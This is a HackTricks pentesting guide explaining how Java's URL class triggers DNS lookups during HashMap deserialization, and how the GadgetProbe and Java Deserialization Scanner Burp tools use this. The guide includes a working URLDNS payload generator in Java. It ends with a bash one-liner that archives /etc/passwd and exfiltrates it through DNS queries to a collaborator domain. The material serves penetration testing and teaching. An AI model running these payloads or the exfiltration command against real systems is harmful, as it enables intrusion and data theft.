

# Java DNS Deserialization, GadgetProbe and Java Deserialization Scanner

## Java DNS Deserialization, GadgetProbe and Java Deserialization Scanner

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## DNS request on deserialization

The class `java.net.URL` implements `Serializable`, this means that this class can be serialized.

```java
public final class URL implements java.io.Serializable {
```

This class have a **curious behaviour.** From the documentation: “**Two hosts are considered equivalent if both host names can be resolved into the same IP addresses**”.\
Then, every-time an URL object calls **any** of the **functions `equals`** or **`hashCode`** a **DNS request** to get the IP Address is going to be **sent**.

**Calling** the function **`hashCode`** **from** an **URL** object is fairly easy, it's enough to insert this object inside a `HashMap` that is going to be deserialized. This is because **at the end** of the **`readObject`** function from `HashMap` this code is executed:

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        [   ...   ]
    for (int i = 0; i < mappings; i++) {
        [   ...   ]
        putVal(hash(key), key, value, false, false);
    }
```

It is **going** the **execute** `putVal` with every value inside the `HashMap`. But, more relevant is the call to `hash` with every value. This is the code of the `hash` function:

```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

As you can observe, **when deserializing** a **`HashMap`** the function `hash` is going to **be executed with every object** and **during** the **`hash`** execution **it's going to be executed `.hashCode()` of the object**. Therefore, if you **deserializes** a **`HashMap`** **containing** a **URL** object, the **URL object** will **execute** `.hashCode()`.

Now, lets take a look to the code of `URLObject.hashCode()` :

```java
 public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
```

As you can see, when a `URLObject` executes`.hashCode()` it is called `hashCode(this)`. A continuation you can see the code of this function:

```java
 protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        [   ...   ]
```

You can see that a `getHostAddress` is executed to the domain, **launching a DNS query**.

Therefore, this class can be **abused** in order to **launch** a **DNS query** to **demonstrate** that **deserialization** is possible, or even to **exfiltrate information** (you can append as subdomain the output of a command execution).

### URLDNS payload code example

You can find the [URDNS payload code from ysoserial here](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java). However, just for make it easier to understand how to code it I created my own PoC (based on the one from ysoserial):

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
	public static void GeneratePayload(Object instance, String file)
            throws Exception {
        //Serialize the constructed payload and write it to the file
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
	public static void payloadTest(String file) throws Exception {
        //Read the written payload and deserialize it
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        Object obj = in.readObject();
        System.out.println(obj);
        in.close();
    }
	
	public static void main(final String[] args) throws Exception {
		String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
		HashMap ht = new HashMap(); // HashMap that will contain the URL
		URLStreamHandler handler = new SilentURLStreamHandler();
    URL u = new URL(null, url, handler); // URL to use as the Key
    ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

    // During the put above, the URL's hashCode is calculated and cached.
    // This resets that so the next time hashCode is called a DNS lookup will be triggered.
    final Field field = u.getClass().getDeclaredField("hashCode");
    field.setAccessible(true);
		field.set(u, -1);
		
		//Test the payloads
		GeneratePayload(ht, "C:\\Users\\Public\\payload.serial");
	}
}


class SilentURLStreamHandler extends URLStreamHandler {

    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }

    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}
```

### More information

* [https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
* In the original idea thee commons collections payload was changed to perform a DNS query, this was less reliable that the proposed method, but this is the post: [https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)

## GadgetProbe

You can download [**GadgetProbe**](https://github.com/BishopFox/GadgetProbe) from the Burp Suite App Store (Extender).

**GadgetProbe** will try to figure out if some **Java classes exist** on the Java class of the server so you can know **if** it's **vulnerable** to some known exploit.

### How does it work

**GadgetProbe** will use the same **DNS payload of the previous section** but **before** running the DNS query it will **try to deserialize an arbitrary class**. If the **arbitrary class exists**, the **DNS query** will be **sent** and GadgProbe will note that this class exist. If the **DNS** request is **never sent**, this means that the **arbitrary class wasn't deserialized** successfully so either it's not present or it''s **not serializable/exploitable**.

Inside the github, [**GadgetProbe has some wordlists**](https://github.com/BishopFox/GadgetProbe/tree/master/wordlists) with Java classes for being tested.

 (1) (1).gif>)

### More Information

* [https://know.bishopfox.com/research/gadgetprobe](https://know.bishopfox.com/research/gadgetprobe)

## Java Deserialization Scanner

This scanner can be **download** from the Burp App Store (**Extender**).\
The **extension** has **passive** and active **capabilities**.

### Passive

By default it **checks passively** all the requests and responses sent **looking** for **Java serialized magic bytes** and will present a vulnerability warning if any is found:

.png>)

### Active

**Manual Testing**

You can select a request, right click and `Send request to DS - Manual Testing`.\
Then, inside the _Deserialization Scanner Tab_ --> _Manual testing tab_ you can select the **insertion point**. And **launch the testing** (Select the appropriate attack depending on the encoding used).



Even if this is called "Manual testing", it's pretty **automated**. It will automatically check if the **deserialization** is **vulnerable** to **any ysoserial payload** checking the libraries present on the web server and will highlight the ones vulnerable. In order to **check** for **vulnerable libraries** you can select to launch **Javas Sleeps**, **sleeps** via **CPU** consumption, or using **DNS** as it has previously being mentioned.

**Exploiting**

Once you have identified a vulnerable library you can send the request to the _Exploiting Tab_.\
I this tab you have to **select** the **injection point** again, an **write** the **vulnerable library** you want to create a payload for, and the **command**. Then, just press the appropriate **Attack** button.

.png>)

### Java Deserialization DNS Exfil information

Make your payload execute something like the following:

```bash
(i=0;tar zcf - /etc/passwd | xxd -p -c 31 | while read line; do host $line.$i.cl1k22spvdzcxdenxt5onx5id9je73.burpcollaborator.net;i=$((i+1)); done)
```

### More Information

* [https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/](https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
